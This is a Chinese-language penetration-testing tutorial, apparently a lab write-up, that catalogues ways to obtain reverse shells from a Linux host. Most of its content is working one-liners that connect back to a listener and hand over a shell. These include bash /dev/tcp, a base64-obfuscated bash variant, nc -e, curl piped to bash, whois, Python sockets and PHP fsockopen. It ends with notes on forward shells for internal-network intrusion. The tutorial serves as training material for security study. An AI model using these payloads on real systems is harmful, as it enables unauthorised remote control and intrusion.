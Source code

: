 ## 各种反弹shell的方法总结与技巧（一）

#### **前言**

**什么是反弹shell（reverse shell）？**

就是控制端监听某TCP/UDP端口，被控端发起请求到该端口，并将其命令行的输入输出转到控制端。reverse shell与telnet，ssh等标准shell对应，本质上是网络概念的客户端与服务端的角色反转。

**为什么需要反弹shell？**

反弹shell通常用于被控端因防火墙受限、权限不足、端口被占用等情形。在渗透过程中，往往因为端口限制而无法直连目标机器，此时需要通过反弹shell来获取一个交互式shell，以便继续深入。以下详细介绍Windows和Linux系统下反弹shell的几种方式。

#### **一、linux下反弹shell**

实验环境：

Win10 192.168.2.102 NC监听

Kali 192.168.2.103 自带工具

**bash反弹**

```
bash -i >& /dev/tcp/192.168.2.102/7777 0>&1
```

![image.png](https://fynotefile.oss-cn-zhangjiakou.aliyuncs.com/fynote/fyfile/2446/1654650208004/dc4a6385d2df499fa0d2ccd3868e17ef.png)

```
bash -c '{echo,YmFzaCAtaSA+JiAvZGV2L3RjcC8xOTIuMTY4LjIuMTAyLzQ0NDQgMD4mMQ==}|{base64,-d}|{bash,-i}'
```

![image.png](https://fynotefile.oss-cn-zhangjiakou.aliyuncs.com/fynote/fyfile/2446/1654650208004/40fc7e611dff478e93a43f8d8f009a7e.png)

#### **2.nc反弹**

```
nc -e /bin/bash 192.168.2.102 4444
```

-e后面跟的参数代表的是在创建连接后执行的程序，这里代表在连接到远程后可以在远程执行一个本地shell(/bin/bash)，也就是反弹一个shell给远程，可以看到远程已经成功反弹到了shell，并且可以执行命令。

![image.png](https://fynotefile.oss-cn-zhangjiakou.aliyuncs.com/fynote/fyfile/2446/1654650208004/0b743caee9fc432397037727e583e9a9.png)

#### **3.curl反弹**

Kali开启apache服务，把bash命令写入html文件，只要文本包含bash一句话即可。

```
curl 192.168.2.103/bash.html|bash
```

![image.png](https://fynotefile.oss-cn-zhangjiakou.aliyuncs.com/fynote/fyfile/2446/1654650208004/07ef211486a94ab18af6fdec07e5cbe7.png)

![image.png](https://fynotefile.oss-cn-zhangjiakou.aliyuncs.com/fynote/fyfile/2446/1654650208004/17b14138a54e43e88a7692755f92e998.png)

## 各种反弹shell的方法总结与技巧（二）

#### **1.whois反弹**

whois -h 192.168.2.102 -p 4444 `pwd` //反弹的shell只能执行后面带的命令

![image.png](https://fynotefile.oss-cn-zhangjiakou.aliyuncs.com/fynote/fyfile/2446/1654650208004/b8217cc1a2904d59bc98f64c3a880d09.png)

#### **2.python反弹**

```
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("192.168.2.102",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

![image.png](https://fynotefile.oss-cn-zhangjiakou.aliyuncs.com/fynote/fyfile/2446/1654650208004/fab0f87a3dce437399136d610c5b2fe2.png)

#### **3.PHP反弹**

php反弹shell和python的方式差不多

```
php -r '$sock=fsockopen("192.168.2.102",4444);exec("/bin/sh -i <&3 >&3 2>&3");'
```

![image.png](https://fynotefile.oss-cn-zhangjiakou.aliyuncs.com/fynote/fyfile/2446/1654650208004/94a8534c99344ee79db93855d98aa870.png)

## 内网渗透反弹shell的原理（三）

#### 正向反弹shell：

#### 目的：

利用nc正向连接目标服务器的shell，获得目标服务器的控制权限(dmz大型靶场)

##### 前提：

攻击者可以访问（连接）web服务器的目标（开放）端口，web服务器防火墙未拦截攻击者的入站流量。适用于，能够访问到被控机器的开放端口。

![image.png](https://fynotefile.oss-cn-zhangjiakou.aliyuncs.com/fynote/fyfile/2446/1654650208004/5e63586ce4434e6581f6355b0330091d.png)
